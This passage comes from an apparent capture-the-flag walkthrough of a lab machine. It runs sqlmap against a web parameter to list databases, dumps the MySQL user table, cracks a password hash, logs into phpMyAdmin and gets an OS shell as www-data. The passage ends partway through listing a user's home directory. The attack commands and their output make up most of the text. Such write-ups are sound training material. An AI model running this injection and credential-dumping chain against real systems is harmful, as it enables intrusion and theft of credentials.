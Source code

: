 We list the available database:

  * hotel
  * infomration\_schema
  * mysq
  * performance\_schema

    sqlmap -u http://10.10.10.143/room.php?cod=5-1 --dbs
    available databases [4]:
    [*] hotel
    [*] information_schema
    [*] mysql
    [*] performance_schema

We list the table for the `hotel` database and dump it, nothing interesting.

    sqlmap -u http://10.10.10.143/room.php?cod=5-1  -D hotel --tables
    Database: hotel
    [1 table]
    +------+
    | room |
    +------+

    sqlmap -u http://10.10.10.143/room.php?cod=5-1  -D hotel --dump
    Database: hotel
    Table: room
    [6 entries]
    <SNIP>

We dump the mysqluser table and crack the password hash (with the sqlmap
cracking function):

    sqlmap -u http://10.10.10.143/room.php?cod=5-1  -D mysql -T user --dump
    Database: mysql
    Table: user
    [1 entry]
    *2D2B7A5E4E637B8FBA1D17F40318F277D29964D0 (imissyou)

We can then connect to the phpmyadmin as DBadmin:

![Jarvis phpmyadmin](/media/2019.10/jarvis_5.png)

This does not give us a shell. Let us try something different: the `--os-shell`
option from `sqlmap`. We got a shell!

    sqlmap -u http://10.10.10.143/room.php?cod=5-1  --os-shell
    os-shell> id
    command standard output: 'uid=33(www-data) gid=33(www-data) groups=33(www-data)'

We start enumeration a bit and found that we can call a binary as the pepper
user with `sudo`.

    os-shell> ls /home/
    command standard output: 'pepper'
    os-shell> ls /home/pepper/
    command standard output:
    ---
    Web
    user.txt
    ---
    os-shell> cat /home/pepper/user.txt
    command standard output: 'cat: /home/pepper/user.txt: Permission denied'
    os-shell> ls -al /home/pepper/
    command standard output:
    ---
    total 32
    drwxr-xr-x 4 pepper pepper 4096 Mar  5  2019 .